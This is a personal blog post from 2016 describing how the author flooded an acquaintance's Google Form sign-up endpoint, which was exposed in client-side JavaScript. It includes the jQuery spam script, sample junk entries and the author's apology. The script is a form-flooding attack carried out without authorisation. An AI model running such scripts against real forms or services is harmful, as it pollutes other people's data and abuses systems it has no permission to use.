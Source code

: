 ```yaml
---
title: Sorry, I hacked you.
date: '2016-07-19'
coverImage: '/assets/posts/Ways-Websites-Are-Hacked.png'
originalDatePublished: '2016-07-19'
description: " Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his and he had a huge google sheets security flaw"
author: 't0nylombardi'
image: 'https://images.unsplash.com/photo-1511376777868-611b54f68947'
categories: [javascript]
tags: [javascript]
draft: false
---
```


My biggest concern in developing a website, especially in the current role I have, is to worry about how well a site will perform and how secure it will be. Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his. I like his work so I was intrigued into how he wrote his backend for the form since he is a front-end developer. His credentials of his backend was in his JS.

```javascript
function postContactToGoogle(f) {
  var email = f.find('.form-email').val();
  var name = f.find('.form-name').val();

  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: email,
      entry_1111111117: name,
    },
    type: 'POST',
    dataType: 'xml',
    statusCode: {
      0: function () {
        window.location.replace('/path/thanks');
      },
      200: function () {
        window.location.replace('/path/thanks');
      },
    },
  });
}
```

So I looked at this telling myself it was wrong, or at least there had to be a better way of doing something like that.

I blew up the database(or in this case to a google excel doc) as a challenge to myself to see if I was really right.

```javascript
function rText() {
  var text = '';
  var possible =
    'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
  for (var i = 0; i < 5; i++) {
    text += possible.charAt(Math.floor(Math.random() * possible.length));
  }
  return text;
}

function generateEmail() {
  var username, email, full_email;
  username = 'HueBin_';
  email = 'Hacked';
  full_email = username + rText() + '@' + rText() + email + '.com';
  return full_email;
}

function postContactToGoogle() {
  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: generateEmail(),
      entry_1111111117: 'HueBin_',
    },
    type: 'POST',
    dataType: 'xml',
    crossDomain: true,
    statusCode: {
      0: function (data) {
        console.log('BAD!', data);
      },
      200: function (data) {
        console.log('GOOD', data);
      },
    },
  });
}

$(function () {
  var num = 1;
  for (var i = 0; i < num; i++) {
    setTimeout(postContactToGoogle(), 50000); // yes thats 50,000!
  }
});
```

this posted info into the database that looked simular to this:

```
  name: HueBun_,Email:HueBin_piMt6@vwq4WHacked.com
  name: HueBun_,Email:HueBin_f7Txq@pzLm6Hacked.com
  name: HueBun_,Email:HueBin_YBTNf@TluieHacked.com
  name: HueBun_,Email:HueBin_QYqVm@jYWuUHacked.com
```

I wrote an email stating that I was really really sorry about it. More so, I meant to contact him sooner, but I just entered another year in my life and I took the weekend off from electronics (mainly because of beer)

conclusion: don't smoke crack! No, when putting anything out in to the publics eyes, do not put the keys to the castle out there for everyone to see. Also, don't go my route. Instead inform of the person of potential bugs rather than acting on exploiting them.
